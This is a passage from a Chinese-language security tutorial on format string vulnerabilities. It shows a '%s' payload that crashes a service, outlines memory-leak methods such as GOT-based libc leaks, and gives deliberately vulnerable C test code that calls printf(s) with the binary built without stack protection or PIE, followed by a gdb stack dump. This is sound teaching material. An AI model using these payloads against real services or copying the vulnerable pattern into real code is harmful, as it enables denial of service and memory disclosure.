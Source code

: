 ```
%s%s%s%s%s%s%s%s%s%s%s
```

这是因为栈上不可能每个值都对应了合法的地址，所以总是会有某个地址可以使得程序崩溃。这一利用，虽然攻击者本身似乎并不能控制程序，但是这样却可以造成程序不可用。比如说，如果远程服务有一个格式化字符串漏洞，那么我们就可以攻击其可用性，使服务崩溃，进而使得用户不能够访问。

## 泄露内存

利用格式化字符串漏洞，我们还可以获取我们所想要输出的内容。一般会有如下几种操作

- 泄露栈内存
  - 获取某个变量的值
  - 获取某个变量对应地址的内存
- 泄露任意地址内存
  - 利用got表得到libc函数地址，获取 libc，进而获取其它 libc 函数地址
  - 盲打，dump整个程序，获取有用信息

### 泄露栈内存

测试代码：

```c
#include <stdio.h>
int main() 
{
  char s[100];
  int a = 1, b = 0x222222, c = -1;
  scanf("%s", s);
  printf("%08x.%08x.%08x.%s\n", a, b, c, s);
  printf(s);
  return 0;
}

gcc -m32 -fno-stack-protector -no-pie 1.c
    
如果报错：
/usr/include/stdio.h:27:10: fatal error: bits/libc-header-start.h: No such file or directory
   27 | #include <bits/libc-header-start.h>
      |          ^~~~~~~~~~~~~~~~~~~~~~~~~~
compilation terminated.

原因是环境没有完善造成的
sudo apt-get install gcc-multilib
```

在printf处下断点，r起来，输入%08x.%08x.%08x

看栈：

```
[-------------------------------------code-------------------------------------]
   0xf7e1fddb <fprintf+27>:	add    esp,0x1c
   0xf7e1fdde <fprintf+30>:	ret    
   0xf7e1fddf:	nop
=> 0xf7e1fde0 <printf>:	endbr32 
   0xf7e1fde4 <printf+4>:	call   0xf7f1127d
   0xf7e1fde9 <printf+9>:	add    eax,0x193217
   0xf7e1fdee <printf+14>:	sub    esp,0xc
   0xf7e1fdf1 <printf+17>:	lea    edx,[esp+0x14]
[------------------------------------stack-------------------------------------]
0000| 0xffffd13c --> 0x804921e (<main+104>:	add    esp,0x20)
0004| 0xffffd140 --> 0x804a00b ("%08x.%08x.%08x.%s\n")
0008| 0xffffd144 --> 0x1 
0012| 0xffffd148 --> 0x222222 ('"""')
0016| 0xffffd14c --> 0xffffffff 
0020| 0xffffd150 --> 0xffffd160 ("%08x.%08x.%08x")
```
